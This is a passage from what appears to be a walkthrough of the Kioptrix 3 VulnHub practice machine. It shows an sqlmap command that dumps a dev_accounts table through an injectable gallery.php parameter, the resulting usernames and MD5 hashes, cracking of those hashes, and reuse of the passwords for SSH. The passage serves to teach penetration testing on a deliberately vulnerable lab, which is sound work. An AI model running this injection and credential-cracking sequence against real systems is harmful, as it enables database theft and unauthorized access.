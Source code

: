 The `CONCAT()` just connects all 3 column contents into one statement with a semicolon `;` as delimeter. Ultimately, you can use SqlMap which automates the attack.

```console
root@EdgeOfNight:~# sqlmap -u kioptrix3.com/gallery/gallery.php?id=1 -T dev_accounts --dump

---CUT CUT CUT---

Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+

---CUT CUT CUT---
```

Both hashes being non-salted MD5s, I decide to crack them. You could use a tool like `hashcat` or `johntheripper`, but I'll stick to a simple online [rainbow tables cracker](https://crackstation.net/).

<img src="/assets/img/blog/vulnhub-kioptrix3/kioptrix3-11.png">

Doing some experimenting I find out that the passwords can be used for SSH login. *dreg* has a limited shell and therefore *loneferret*'s account will be used instead. 
